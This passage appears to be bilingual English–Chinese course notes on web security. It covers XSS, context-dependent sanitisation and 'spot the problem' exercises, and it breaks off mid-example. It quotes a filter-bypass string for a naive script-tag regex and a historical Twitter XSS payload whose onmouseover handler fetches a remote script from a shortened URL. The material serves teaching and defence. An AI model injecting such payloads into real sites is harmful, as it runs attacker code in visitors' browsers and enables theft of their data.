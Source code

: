   如果exploits成功的话，恶意软件就能被成功安装，而且没有干涉。

- Often, the victims machine becomes part of a botnet

  然后受害者的电脑就会变成僵尸网络，算力或功能会被攻击者轻易调用以为自己服务。

> XSS attacks: run exploits 意思是在利用 XSS 漏洞进行攻击，运行攻击代码。攻击者利用 XSS 漏洞可以向页面注入恶意代码，当其他用户浏览该页面时，这些代码会在他们的浏览器中执行，从而导致恶意行为，比如窃取用户的信息、登录凭证等，或者直接在用户的浏览器中执行攻击者想要的操作。因此，防止 XSS 攻击非常重要。

## 1.21 Solution for injection: sanitisation

- Sanitize all user inputs is difficult
- Sanitisation is context-dependent
  - JavaScript `<script>user input</script>`
  - CSS value `a:hover {color: user input}`
  - URL value `<a href="user input">`
- Sanitisation is attack-dependent, e.g. JavaScript vs. SQL

> Sanitisation是指对输入的数据进行过滤和清理，以去除可能会导致注入攻击的字符或语句。
>
> 净化是<u>基于内容变化的</u>，对于JS的净化和SQL会不一样。同样地，净化过程的需要<u>取决于具体的攻击类型</u>。不同类型的攻击（如JavaScript注入、SQL注入等）可能需要不同的净化策略和规则来防止对应的攻击。

## 1.22 Spot the problem (1)

```PHP
clean = preg_replace("#<script(.*?)>(.*?)</script(.*?)>#i"
                     "SCRIPT BLOCKED", $value);
echo $clean;
```

- Problem: over-restrictive sanitization: browsers accept malformed input!
- Attack string: `<script>malicious code<`
- Implementation != Standard

> `#<script(.*?)>(.*?)</script(.*?)>#i`是一个正则表达式模式，用于匹配`<script>...</script>`标签。其中`.*?`表示非贪婪模式，用于匹配标签之间的任意字符，`#i`表示不区分大小写。

## 1.23 Spot the problem (2) Real Twitter bug

- On Twitter if user posts `www.site.com`, twitter displays:

  ```html
  <a href="www.site.com">www.site.com</a>
  ```

- Twitter's old sanitisation algorithm blocked `<script>` but allowed `"`.

- What happens if somebody tweets:

  ```sql
  http://t.co/@"onmouseover="$.getScript('
  	http:\u002f\u002fis.gd\u002ff19A7')"/
  ```

- Twitter displays:
